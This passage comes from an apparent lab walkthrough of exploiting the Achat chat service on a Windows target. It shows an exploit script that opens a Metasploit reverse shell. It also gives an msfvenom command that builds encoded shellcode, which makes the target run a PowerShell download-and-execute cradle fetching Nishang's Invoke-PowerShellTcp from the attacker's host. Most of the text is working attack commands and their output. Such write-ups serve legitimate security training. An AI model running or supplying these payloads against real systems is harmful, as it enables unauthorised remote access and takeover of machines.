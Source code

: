 

Insert that into the exploit script, and run it:



    root@kali# python achat-shell-8081.py
    ---->{P00F}!





    msf exploit(multi/handler) > run

    [*] Started reverse TCP handler on 10.10.14.218:8081
    [*] Encoded stage with x86/shikata_ga_nai
    [*] Sending encoded stage (267 bytes) to 10.10.10.74
    [*] Command shell session 1 opened (10.10.14.218:8081 -> 10.10.10.74:49157) at 2018-06-13 18:33:14 -0400

    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Windows\system32>



#### alternative method: script + windows cmd + powershell

When working Windows hosts, I typically use the
[Nishang](https://github.com/samratashok/nishang)
`Invoke-PowerShellTcp.ps1` script to get a shell. We can do that pretty
easily here by changing the command from simply launching calc to one
that will invoke powershell and have it call to us to get the shell to
execute:



    root@kali# msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.159/Invoke-PowerShellTcp-8082.ps1')" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python > shellcode
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of x86/unicode_mixed
    x86/unicode_mixed succeeded with size 718 (iteration=0)
    x86/unicode_mixed chosen with final size 718
    Payload size: 718 bytes
    Final size of python file: 3442 bytes



Put that output into the script, and run it:



    root@kali# python achat-powershell-80-8082.py
    ---->{P00F}!

